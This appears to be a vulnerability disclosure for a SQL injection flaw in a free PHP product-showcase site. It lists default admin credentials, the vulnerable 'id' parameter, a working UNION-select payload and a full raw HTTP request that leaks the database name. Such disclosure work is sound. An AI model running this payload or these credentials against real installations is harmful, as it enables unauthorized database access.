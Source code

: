 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/categories/manage_field_order.php?id=

Vulnerability location: /psrs/admin/categories/manage_field_order.php?id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/categories/manage_field_order.php?id=-1%27%20union%20select%201,2,database(),4,5,6,7,8--+ // Leak place ---> id

```sql
GET /psrs/admin/categories/manage_field_order.php?id=-1%27%20union%20select%201,2,database(),4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171826607-34cef476-400f-489f-ae58-0a2821d030f7.png)

![image](https://user-images.githubusercontent.com/54017627/171826542-dc94d67d-b293-43cb-b54c-370d6009e29f.png)
